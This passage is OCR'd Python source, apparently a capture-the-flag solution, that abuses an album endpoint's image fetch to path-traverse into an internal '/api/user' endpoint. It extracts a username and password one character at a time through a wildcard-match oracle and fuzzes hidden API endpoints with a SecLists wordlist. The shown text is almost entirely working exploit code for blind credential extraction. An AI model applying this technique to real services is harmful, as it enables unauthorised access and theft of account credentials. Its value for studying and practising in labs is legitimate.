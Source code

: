 ```
    res = s.post(BASE_URL + "/r3c0n_server_4fdk59/album", params=params)
    m = re.search(".*<img class=\"img-responsive\" src=\"([^\"]+)\">.*", res.text, re.DOTALL)
    if m:
        return m.group(1)


def get_picture(s, url):
    res = s.get(BASE_URL + str(url))
    return res.text


def submit_try(s, payload):
    url = get_hash(s, payload)
    return get_picture(s, url)


def retrieve_username(s):
    result = ""
    alphabet = string.ascii_lowercase + string.digits
    resume = True
    while resume:
        for char in alphabet:
            if "Invalid content type detected" in submit_try(s, f"../api/user?username={result}{char}%"):
                result += char
                print(f"[+] Found: {result}")
                if "Invalid content type detected" in submit_try(s, f"../api/user?username={result}"):
                    resume = False
    return result


def retrieve_password(s, username):
    result = ""
    alphabet = string.ascii_letters + string.digits
    resume = True
    while resume:
        for char in alphabet:
            if "Invalid content type detected" in submit_try(s, f"../api/user?username={username}&password={result}{char}%"):
                result += char
                print(f"[+] Found: {result}")
                if "Invalid content type detected" in submit_try(s, f"../api/user?username={username}&password={result}"):
                    resume = False
    return result

def discover_endpoints(s, payload, normal_errormsg):
    content = []
    with open("/usr/share/seclists/Discovery/Web-Content/api/objects-lowercase.txt") as f:
        for line in f:
            fuzz = line.strip()
            url = get_hash(s, payload.format(fuzz=fuzz))
            res_text = get_picture(s, url)
            if normal_errormsg not in res_text:
                print(f"[+] {fuzz} -> {res_text}")
                content.append(fuzz)
            else:
                print(f"[-] {fuzz} -> {res_text}")
    return content


if __name__ == "__main__":
```